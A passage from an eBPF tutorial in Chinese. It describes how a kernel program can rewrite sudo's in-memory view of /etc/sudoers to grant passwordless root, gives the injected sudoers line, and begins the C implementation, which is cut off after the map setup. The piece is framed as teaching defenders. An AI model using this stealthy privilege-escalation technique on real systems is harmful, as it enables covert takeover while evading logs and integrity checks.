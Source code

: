 # eBPF 教程: 文件操纵实现 sudo 权限提升

eBPF 的能力远不止简单的跟踪——它可以实时修改流经内核的数据。虽然这种能力为性能优化和安全监控提供了创新解决方案,但它也为传统安全工具可能遗漏的复杂攻击向量打开了大门。本教程演示了其中一种技术:使用 eBPF 通过操纵 `sudo` 读取 `/etc/sudoers` 时看到的内容,向非特权用户授予 root 访问权限。

此示例揭示了攻击者如何滥用 eBPF 的 `bpf_probe_write_user` 辅助函数来完全绕过 Linux 的权限模型,而不会在日志文件中留下痕迹或修改实际的系统文件。理解这些攻击模式对于构建 eBPF 感知安全监控的防御者至关重要。

> 完整源代码: <https://github.com/eunomia-bpf/bpf-developer-tutorial/tree/main/src/26-sudo>

## 攻击向量:拦截文件读取

传统的权限提升攻击直接修改 `/etc/sudoers`,在文件时间戳、审计日志和完整性监控系统中留下明显痕迹。这种基于 eBPF 的方法要微妙得多——它拦截 `sudo` 的读取操作,并在 `sudo` 处理之前替换内存中的文件内容。磁盘上的实际文件保持不变,击败了大多数文件完整性监视器。

攻击的工作原理是利用一个关键窗口:当 `sudo` 将 `/etc/sudoers` 读入缓冲区时,数据短暂地存在于用户空间内存中。eBPF 程序可以使用 `bpf_probe_write_user` 访问和修改此用户空间内存,有效地向 `sudo` 撒谎关于存在什么权限,而无需触摸真实文件。

以下是攻击流程:当任何进程打开 `/etc/sudoers` 时,我们记录其文件描述符。当同一进程从文件读取时,我们捕获缓冲区地址。读取完成后,我们用 `<username> ALL=(ALL:ALL) NOPASSWD:ALL #` 覆盖第一行,使 `sudo` 相信目标用户具有完全的 root 权限。尾部的 `#` 注释掉该行上的任何原始内容,防止解析错误。

## 实现:挂钩系统调用路径

让我们检查如何在 eBPF 中实现此攻击。完整的内核端代码协调四个系统调用挂钩来跟踪文件操作并注入恶意内容。

```c
// SPDX-License-Identifier: BSD-3-Clause
#include "vmlinux.h"
#include <bpf/bpf_helpers.h>
#include <bpf/bpf_tracing.h>
#include <bpf/bpf_core_read.h>
#include "common.h"

char LICENSE[] SEC("license") = "Dual BSD/GPL";

// 环形缓冲区映射,用于从内核向用户传递消息
struct {
    __uint(type, BPF_MAP_TYPE_RINGBUF);
    __uint(max_entries, 256 * 1024);
} rb SEC(".maps");

// 保存来自 'openat' 调用的文件描述符的映射
struct {
    __uint(type, BPF_MAP_TYPE_HASH);
    __uint(max_entries, 8192);
    __type(key, size_t);
    __type(value, unsigned int);
} map_fds SEC(".maps");

// 保存来自 'read' 调用的缓冲区地址的映射
struct {
    __uint(type, BPF_MAP_TYPE_HASH);
    __uint(max_entries, 8192);
    __type(key, size_t);
    __type(value, long unsigned int);
} map_buff_addrs SEC(".maps");

// 可选的目标父进程 PID
const volatile int target_ppid = 0;

// 用户的 UserID,如果我们要限制仅针对此用户运行
const volatile int uid = 0;

// 这些存储我们要添加到 /etc/sudoers 的字符串
```